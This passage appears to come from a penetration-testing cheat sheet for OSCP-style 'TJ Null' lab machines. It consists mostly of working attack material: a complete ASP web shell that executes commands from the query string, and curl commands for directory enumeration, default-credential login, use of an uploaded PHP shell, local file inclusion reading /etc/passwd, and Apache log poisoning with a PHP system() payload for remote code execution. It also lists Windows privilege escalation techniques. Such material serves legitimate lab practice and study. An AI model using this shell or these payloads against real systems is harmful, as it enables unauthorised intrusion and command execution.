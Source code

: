 ```asp
<%
' Basic ASP web shell
If Request.QueryString("cmd") <> "" Then
    Set oExec = Server.CreateObject("WScript.Shell").Exec(Request.QueryString("cmd"))
    Response.Write("<pre>" & Server.HTMLEncode(oExec.StdOut.ReadAll()) & "</pre>")
End If
%>
```

## TJ Null Specific Scenarios

### Common TJ Null Box Patterns

#### Pattern 1: Simple Web App + Basic PrivEsc
```bash
# Usually involves:
# 1. Directory enumeration to find admin panel
gobuster dir -u http://<target> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

# 2. Default credentials or SQL injection
curl -X POST http://<target>/admin/login.php -d "username=admin&password=admin"

# 3. File upload to get shell
# Upload PHP shell, then access via:
curl "http://<target>/uploads/shell.php?c=whoami"
```

#### Pattern 2: LFI to RCE Chain
```bash
# 1. Find LFI vulnerability
curl "http://<target>/page.php?file=../../../etc/passwd"

# 2. Poison logs (common in TJ Null boxes)
curl -A "<?php system(\$_GET['c']); ?>" http://<target>

# 3. Include poisoned log
curl "http://<target>/page.php?file=/var/log/apache2/access.log&c=id"
```

#### Pattern 3: Service Exploitation + Windows PrivEsc
```bash
# 1. Service enumeration
nmap -sV <target>

# 2. Searchsploit for specific service version
searchsploit service_name version

# 3. Exploit execution
python3 exploit.py <target>

# 4. Windows privilege escalation (common techniques in TJ Null)
# - Check for unquoted service paths
# - Look for AlwaysInstallElevated
# - Token impersonation with JuicyPotato
```
